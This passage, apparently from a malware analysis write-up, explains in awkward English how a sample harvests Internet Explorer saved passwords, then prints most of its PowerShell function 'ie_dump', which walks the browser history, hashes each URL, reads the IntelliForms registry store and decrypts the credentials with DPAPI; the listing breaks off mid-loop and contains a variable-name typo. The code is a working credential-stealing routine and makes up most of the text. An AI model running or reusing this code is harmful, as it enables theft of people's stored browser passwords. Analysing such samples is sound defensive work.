 <h6>At the last, this check by the history files of Internet Explorer, the URL are extracted from their algorithm with their hash, this extracts the value from this result for getting the credentials. The OS version is also checked, since windows 8, IE use vault systems for managing the security of theirs passwords. Like the rest, the thinking about the attacker's logic is always as strange that more logic to test the existence of the profiles after check the OS versions due to the way like the data is stored is different and this useless to test the second part.</h6>

```csharp
function ie_dump()
{
  try
  {
    Add-Type -AssemblyName System.Security
    $ieInfo = @{};
    $ieError = "SUCCESS"
    $shell = New-Object -ComObject Shell.Application
    $hist = $shell.NameSpace(34) # Alternative method of checking Internet Explorer history -> C:\Users\<Username>\AppData\Local\Microsoft\Windows\History
    $folder = $hist.Self;
    if((@($hist.Items()).Count) -le 0) { $ieInfo = "NO HISTORY"; }
    $hist.Items() | foreach 
    {
      if ($_.IsFolder) 
      {
        $siteFolder = $_.GetFolder
        $siteFolder.Items() | foreach 
        {
          $site = $_;
          if ($site.IsFolder) 
          {
            $pageFolder  = $site.GetFolder;
            $pageFolder.Items() | foreach 
            {
              $url = $($pageFolder.GetDetailsOf($_,0)) ;
              $enc = [system.Text.Encoding]::UTF8;
              $entropy= $enc.GetBytes($url);
              $url16 = [System.Text.Encoding]::GetEncoding("UTF-16").GetBytes($url + "`0");
              $sha1 = [System.Security.Cryptography.SHA1]::Create();
              $hash = $sha1.ComputeHash($url16);
              $hs = "" 
              $cs = 0
              $urlHASH = $($hash | %{ $hs += $_.ToString("x2") ; $cs += $_ } 
              ($hs + ($cs % 256).ToString("x2")).ToUpper())
              $fromREG = $null; 
              $fromREG = $(Get-ItemProperty -PATH "HKCU:\Software\Microsoft\Internet Explorer\IntelliForms\Storage2" -Name $urlHASH -ErrorAction SilentlyContinue | Select-Object -ExpandProperty $urlHASH)    
              if($fromREG -ne $null) 
              {                                    
                try{ $Decrypt = [System.Security.Cryptography.ProtectedData]::Unprotect($fromREG, $url16, [System.Security.Cryptography.DataProtectionScope]::LocalMachine); }
                catch { Continue }
                $dwSize = [bitconverter]::ToInt32($Decrypt[0..3], 0)
                $dwSecretInfoSize = [bitconverter]::ToInt32($Decrypt[4..7], 0)
                $dwSecretSize = [bitconverter]::ToInt32($Decrypt[8..11], 0)
                $dwTotalSecrets = [bitconverter]::ToInt32($Decrypt[20..23], 0) / 2
                if($fromREG.Length -ge ($dwSize + $dwSecretInfoSize +$dwSercertSize))
                {
                  $url = ([System.Uri]$url).Host    
                  if($ieInfo[$url] -eq $null) { $ieInfo[$url] = @(); }
                  $allCreds = ([System.Text.Encoding]::Default.GetString($Decrypt[($Decrypt.Length - $dwSecretSize)..($Decrypt.Length)]) -split "\x00\x00") -replace "\x00", "";
                  for($i = 0; $i -lt $dwTotalSecrets; $i++ ) 
                  {
```